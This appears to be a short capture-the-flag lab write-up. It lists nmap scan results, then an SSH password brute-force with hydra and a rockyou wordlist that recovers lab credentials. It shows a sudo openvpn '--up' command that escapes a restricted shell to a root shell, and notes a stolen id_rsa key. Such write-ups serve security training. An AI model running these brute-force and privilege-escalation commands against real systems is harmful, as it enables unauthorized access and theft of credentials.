local.txt: 55db2ffbb048d7e0b67f38cfe29dcc5f
proof.txt: 888c4421110d6af29e3d4e95892a0e44

```lua
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
|_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
1194/tcp open  openvpn?
Aggressive OS guesses: Linux 2.6.32 (88%), Linux 2.6.32 or 3.10 (88%), Linux 2.6.39 (88%), Linux 3.10 - 3.12 (88%), Linux 3.4 (88%), Linux 3.5 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Synology DiskStation Manager 5.1 (88%), WatchGuard Fireware 11.8 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh
# Found pass of user offsec
hydra -l offsec -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -M ssh_users.txt ssh

[22][ssh] host: 192.168.196.122   login: offsec   password: password

# When logging, offsec has a restricted lshell. To bypass:
sudo -l
sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

### SSH Failed attemps
~~goomba:squishhop~~

---
# Post Exploitation
Found `id_rsa` of mario user!